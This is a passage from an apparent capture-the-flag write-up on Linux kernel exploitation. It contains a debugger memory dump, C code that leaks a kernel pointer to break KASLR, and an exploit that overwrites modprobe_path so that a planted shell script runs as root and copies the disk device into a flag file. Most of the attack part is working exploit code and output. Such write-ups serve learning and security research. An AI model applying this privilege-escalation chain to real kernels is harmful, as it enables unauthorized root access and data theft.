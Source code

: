 ```bash
00:0000│  0xff11000004963000 ◂— 0x7e00000001
01:0008│  0xff11000004963008 ◂— 0
02:0010│  0xff11000004963010 —▸ 0xff1100000414b840 ◂— 0x101
03:0018│  0xff11000004963018 —▸ 0xff110000048ed400 —▸ 0xff110000048ed450 ◂— 0
04:0020│  0xff11000004963020 —▸ 0xffffffff82289360 (pty_unix98_ops) —▸ 0xffffffff8163e4c0 (pts_unix98_lookup) ◂— endbr64
05:0028│  0xff11000004963028 —▸ 0xff1100000459b5f0 —▸ 0xffffffff82bd14a0 (n_tty_ops) —▸ 0xffffffff82722080 (.LC3+121) ◂— 0x7264007974745f6e /* 'n_tty' */
06:0030│  0xff11000004963030 ◂— 0
07:0038│  0xff11000004963038 ◂— 0
```

Note the values at the offsets `0x20`:  `0xffffffff82289480` and `0xffffffff82289360`. These are high memory addresses that point to global variables on the kernel, we can use them to break `KASLR`

```c
for (int i = 1; i <= 8; i++) {
    uint64_t kbase_leak = io_read(fd, 0x400 * i + (3 * 0x8)); // next kmalloc-1024 slot
    if (kbase_leak < 0xffffffff81000000) continue;  // verify that we have a high-address pointer

    printf("(~) kbase_leak %016lx\n", kbase_leak);
    //ref: https://elixir.bootlin.com/linux/v6.10.10/source/drivers/tty/pty.c#L745
    uint64_t ptm_unix98_ops_offset = 0xffffffff82289360 - 0xffffffff81000000;
    kbase = (kbase_leak - ptm_unix98_ops_offset) & 0xffffffffffff0000;
    break;
}

```

# Arb write + KASLR leak = PRIVESC


Now that we have those primitives, it's just a matter of rewriting the
`modprobe_path` variable (_see [1]_) and executing a malformed binary.

```c
uint64_t modprobe_path_offset = 0xffffffff82b3f100 - 0xffffffff81000000;
printf("(!) modprobe_path: %016lx\n", kbase + modprobe_path_offset);

write_global(fd, kbase + modprobe_path_offset, (uint64_t*)"/tmp/p");
system("echo -ne '#!/bin/sh\ncat /dev/vda > /tmp/flag' > /tmp/p");
system("chmod a+x /tmp/p");
system("echo -ne '\xff\xff\xff\xff' > /tmp/executeme");
system("chmod a+x /tmp/executeme");
printf("(!) Modprobe Setup done :)\n");
system("/tmp/executeme");

char flag_buf[0x200];
FILE* flag = fopen("/tmp/flag", "r");
fscanf(flag, "%s", flag_buf);
printf("(~) FLAG: %s\n", flag_buf);
```

# References


- [1] - https://pawnyable.cafe/linux-kernel/ 
- [2] - https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628
